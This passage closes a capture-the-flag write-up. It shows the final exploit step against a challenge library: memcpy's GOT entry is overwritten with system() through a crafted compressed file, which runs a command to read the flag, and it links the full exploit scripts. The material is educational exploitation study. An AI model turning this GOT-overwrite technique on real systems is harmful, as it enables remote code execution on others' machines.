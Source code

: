 ```py
        i += 1
```

### Overwrite libkyle's memcpy@got and get RCE

Fortunately overwriting memcpy@got with system was good enough to get the flag and claim that juicy bounty :)

```py
    # exp is a CompressedFile which:
    # - writes libc.system to memcpy_got
    # - calls memcpy(cmd, 0, 0) -> system(cmd)
    cmd = b"ls;cat flag.txt;\x00"
    exp = CompressedFile(24)
    
    exp.seek((memcpy_got - OUT_ADDR)&M64)
    # out=memcpy_got
    for b in p64(libc.symbols['system']):
        exp.write(bytes([b]))
    # out=memcpy_got+8
    # memcpy(out, out-off, size)
    # system(out)
    
    in_addr_off = len(exp.content)
    exp.content += cmd
    exp.seek((IN_ADDR + in_addr_off - (memcpy_got + 8))&M64)
    exp.memcpy(0, 0) # system(cmd)
    
    uploadFile(exp.content, 123001)
    # profit
    getFile(123001)
```

## 4.7 The flag!

You can find the exploit [here](resources/x.py).

<p align="center"><img src="./images/exploit-final.png"></p><br/>

There is also an 100% reliable version of the exploit [here](resources/reliable_exploit.py).

## 5. Conclusion

Hope you enjoyed the writeup, if something was not clear enough don't hesitate to contact me [@nick0ve](https://twitter.com/nick0ve) :)